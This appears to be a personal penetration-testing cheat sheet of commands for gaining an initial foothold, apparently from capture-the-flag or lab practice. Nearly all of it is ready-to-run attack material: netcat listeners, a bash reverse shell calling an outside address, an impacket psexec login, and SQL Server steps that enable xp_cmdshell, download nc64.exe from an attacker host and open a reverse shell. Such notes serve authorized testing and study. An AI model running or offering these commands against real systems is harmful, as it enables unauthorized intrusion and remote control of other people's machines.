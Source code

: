 Foothold
========

Listeners
---------

Netcat
```
sudo nc -lvnp $LPORT
```

Netcat on a port less likely to be blocked by egress firewalls
```
sudo nc -lvnp 443
```

Reverse Shells
--------------

[Various Reverse Shell Cheatsheets (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```
bash -c "bash -i >& /dev/tcp/10.10.14.62/443 0>&1"
```

use python to improve the quality of terminal experience
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
or 
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Protocol attacks with [impacket](https://github.com/SecureAuthCorp/impacke)
```
impacket-psexec "./$WINUSER:$WINPASS"@$RHOST
```

SQL Server
----------

check if role is admin
```
SELECT is_srvrolemember('sysadmin');
```

Enable command shell
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure; - Enabling the sp_configure as stated in the above error message EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

Run a command
```
EXEC xp_cmdshell 'net user';
```
	
Download and run nc64.exe
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://[[$LHOST]]:8080/nc64.exe -outfile nc64.exe"
```
	
Obtain reverse shell
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe [[$LHOST]] [[$LPORT]]"
```

